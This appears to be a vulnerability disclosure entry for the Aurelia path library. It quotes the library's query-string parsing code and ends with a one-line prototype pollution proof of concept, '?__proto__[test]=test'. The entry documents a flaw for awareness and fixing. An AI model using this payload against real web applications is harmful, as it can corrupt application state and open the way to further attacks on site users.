## Aurelia path

URL: https://github.com/aurelia/path

### Vulnerable code fragment

https://github.com/aurelia/path/blob/a9906488fff20ea44883974dd279477d9b3d9a7a/src/index.ts#L232-L276

```js
  let pairs = query.replace(/\+/g, ' ').split('&');
  for (let i = 0; i < pairs.length; i++) {
    let pair = pairs[i].split('=');
    let key = decodeURIComponent(pair[0]);
    if (!key) {
      continue;
    }
    //split object key into its parts
    let keys = key.split('][');
    let keysLastIndex = keys.length - 1;

    // If the first keys part contains [ and the last ends with ], then []
    // are correctly balanced, split key to parts
    //Else it's basic key
    if (/\[/.test(keys[0]) && /\]$/.test(keys[keysLastIndex])) {
      keys[keysLastIndex] = keys[keysLastIndex].replace(/\]$/, '');
      keys = keys.shift().split('[').concat(keys);
      keysLastIndex = keys.length - 1;
    } else {
      keysLastIndex = 0;
    }

    if (pair.length >= 2) {
      let value = pair[1] ? decodeURIComponent(pair[1]) : '';
      if (keysLastIndex) {
        parseComplexParam(queryParams, keys, value);
      } else {
        queryParams[key] = processScalarParam(queryParams[key], value);
      }
    } else {
      queryParams[key] = true;
    }
```

### PoC

```
?__proto__[test]=test
```